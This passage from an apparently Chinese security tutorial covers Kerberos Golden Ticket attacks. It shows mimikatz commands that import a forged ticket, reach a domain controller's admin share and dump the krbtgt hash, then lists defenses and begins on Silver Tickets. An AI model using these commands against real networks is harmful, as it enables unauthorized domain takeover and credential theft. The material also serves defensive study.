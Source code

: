 ##### [](#3-导入伪造Golden-Ticket获得域控权限 "3.  导入伪造Golden Ticket获得域控权限")**3. 导入伪造 Golden Ticket 获得域控权限**

通过 mimikatz 中的 kerberos::ptt 功能（Pass The Ticket）将 golden.kiribi 导入内存中。

```
kerberos::purge
kerberos::ppt golden.kiribi
kerberos::list
```

[![](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566542805439.png)](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566542805439.png)

此时就可以通过 dir 成功访问域控的共享文件夹。

```
dir \\OWA2010SP3.0day.org\c$
```

[![](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566543260644.png)](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566543260644.png)

**TIPS:**

​ 生成 Golden Ticket 不仅可以使用 aes256，也可用 krbtgt 的 NTLM hash  
可以用 **mimikatz “lsadump::lsa /patch”** 导出:

[![](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1049983-20171227215506456-245748150.png)](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1049983-20171227215506456-245748150.png "img")

##### [](#注意 "注意")注意

*   这种方式导入的 Ticket 默认在 20 分钟以内生效，如果过期了，再次 ptt 导入 Golden Ticket 即可。
*   可以伪造任意用户，即使其不存在。
*   krbtgt 的 NTLM hash 不会轻易改变，即使修改域控管理员密码。

#### [](#黄金票据防御 "黄金票据防御")黄金票据防御

*   **限制域管理员登录到除域控制器和少数管理服务器以外的任何其他计算机（不要让其他管理员登录到这些服务器）将所有其他权限委派给自定义管理员组**。这大大降低了攻击者访问域控制器的 Active Directory 的 ntds.dit。如果攻击者无法访问 AD 数据库（ntds.dit 文件），则无法获取到 KRBTGT 帐户密码。
*   **禁用 KRBTGT 帐户，并保存当前的密码以及以前的密码**。KRBTGT 密码哈希用于在 Kerberos 票据上签署 PAC 并对 TGT（身份验证票据）进行加密。如果使用不同的密钥（密码）对证书进行签名和加密，则 DC（KDC）通过检查 KRBTGT 以前的密码来验证。

### [](#银票-SilverTickets "(银票)SilverTickets")(银票)SilverTickets

#### [](#简介-1 "简介")简介

​ Silver Tickets（下面称银票）就是伪造的 ST（Service Ticket），因为在 TGT 已经在 PAC 里限定了给 Client 授权的服务（通过 SID 的值），所以银票只能访问指定服务。

**正确的认证流程:**

[![](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/20160118045254154911118.png)](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/20160118045254154911118.png "Alt text")
